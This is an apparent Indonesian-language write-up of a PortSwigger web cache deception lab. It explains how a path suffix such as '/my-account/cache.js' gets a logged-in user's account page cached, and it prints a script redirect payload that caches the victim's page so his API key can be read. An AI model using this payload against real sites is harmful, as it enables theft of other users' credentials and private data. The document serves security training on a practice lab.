









# Exploiting path mapping for web cache deception

> **Lab Description:** To solve the lab, find the API key for the user carlos. You can log in to your own account using the following credentials: wiener:peter.

## Lab Overview

| Property             | Detail                                                                                                         |
| :------------------- | :------------------------------------------------------------------------------------------------------------- |
| **Category**         | Web Cache Deception                                                                             |
| **Difficulty Level** | Apprentice                                                                                                     |
| **Lab URL**          | [PortSwigger Lab Link](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-path-mapping-discrepancies/web-cache-deception/lab-wcd-exploiting-path-mapping) |
| **Status**           | Solved                                                                                                    |
| **Date Completed**   |       2026-11-20                                                                                                         |

## Analysis

Diberikan web sebagai berikut:



Objektif lab ini adalah mencari `API Key Carlos` untuk menyelesaikan lab.

**Pertama**, login menggunakan akun `wiener`


Setelah login akan masuk ke dalam dashboard


Dashboard menampilkan `API Key` yang dimiliki oleh pengguna, api key yang saya dapat dari akun `wiener` adalah `IfZfbM3RojMybXWPg323Ro1vt0IHN2PA`.

**Kedua**,  Eksplorasi web cache pada endpoint `GET /my-account`, cara kerja utama web cache adalah menyimpan konten yang telah dimuat, lalu menyimpan nya dalam file statis seperti `.js,.css, etc`, hal ini bisa dimanfaatkan untuk menyimpan data-data sensitif. saya mencoba untuk melakukan request ke endpoint my account dengan menambahkan query parameter `/cache.js`, sehingga payloadnya seperti berikut:

```text
/my-account/cache.js
```

origin server tetap memproses permintaan yang telah saya buat meskipun, saya menambahkan path dibelakangnya, hanya karena entry pathnya adalah `/my-account`



tampak pada header response berikut:

```text
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30 => cache disimpan selama 30 detik
Age: 0
X-Cache: miss => cache belum tersedia dan perlu melakukan request ke origin server
Content-Length: 3928
```

Lalu saya lakukan request lagi kurang lebih setelah 30 detik, `X-Cache: miss` berubah menjadi `X-Cache: hit`, artinya konten berhasil dimuat dari cache, tanpa perlu request ke origin server

```text
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 4
X-Cache: hit
Content-Length: 3928
```

## Exploitation

**Pertama**, susun payload yang akan digunakan untuk menerima cache

```text
<script>document.location="https://0ac800cd045151e180d8c159001a00f9.web-security-academy.net/my-account/wcd.js"</script>
```

**Kedua**, kirim payload menggunakan exploit server



Setelah send ke target, view exploit untuk melihat hasilnya



Disini berhasil masuk ke dashboard carlos tanpa perlu login sebagai carlos dan masuk melalui konten yang telah disimpan kedalam web cache



**Ketiga**, submit solution dengan api key carlos





### Final Payload

```text
<script>document.location="https://0ac800cd045151e180d8c159001a00f9.web-security-academy.net/my-account/wcd.js"</script>
```

## New Knowledge

- Mempelajari bagaimana cara kerja Web Cache Deception
- Memahami perbedaan X-Cache: hit dan X-Cache: miss

## References
- [Web Cache Decepticon attack explained by portswigger](https://portswigger.net/web-security/web-cache-deception)
